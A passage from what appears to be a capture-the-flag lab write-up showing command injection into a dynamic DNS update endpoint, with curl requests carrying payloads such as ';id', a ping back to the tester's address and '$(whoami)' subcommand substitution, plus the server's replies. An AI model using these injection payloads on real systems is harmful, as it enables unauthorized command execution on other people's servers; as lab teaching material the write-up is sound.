 I’ll start with a couple simple payloads, `;id` (to see if any output came back) and `;ping -c 1 10.10.14.8` to see if there’s a blind injection. I’ll also use `curl` with the `--data-urlencode` parameter to pass GET parameters that it encodes for me.

Both return `wrngdom` errors:

```

oxdf@parrot$ curl -G --data-urlencode 'hostname=;id' 'http://dynadns:sndanyd@10.10.10.244/nic/update'
911 [wrngdom: ]
oxdf@parrot$ curl -G --data-urlencode 'hostname=;ping -c 1 10.10.14.8' 'http://dynadns:sndanyd@10.10.10.244/nic/update'
911 [wrngdom: 10.14.8]

```

The first doesn’t give a domain, but the second gives 10.14.8. It looks like it’s looking for the first `.`, and considering the stuff after it the domain, just like I noticed above. I can test this, and it looks right:

```

oxdf@parrot$ curl -G --data-urlencode 'hostname=a.b.c.d.e.f.g.h.i' 'http://dynadns:sndanyd@10.10.10.244/nic/update'
911 [wrngdom: b.c.d.e.f.g.h.i]

```

I’ve got the list of domains from the website. I’ll try adding something to the end of the injection:

```

oxdf@parrot$ curl -G --data-urlencode 'hostname=;id;0xdf.no-ip.htb' 'http://dynadns:sndanyd@10.10.10.244/nic/update'
911 [nsupdate failed]

```

That’s good confirmation that it’s using `nsupdate`, and the fact that I broke it is a good sign that the injection is working.

### Command Injection POCs

#### whoami

I’d like to add a comment after the domain, but then it won’t pass the domain check. I’ll switch from using `;` to end the command to using `$()` to run a subcommand:

```

oxdf@parrot$ curl -G --data-urlencode 'hostname=$(whoami).no-ip.htb' 'http://dynadns:sndanyd@10.10.10.244/nic/update'
good 10.10.14.8

```
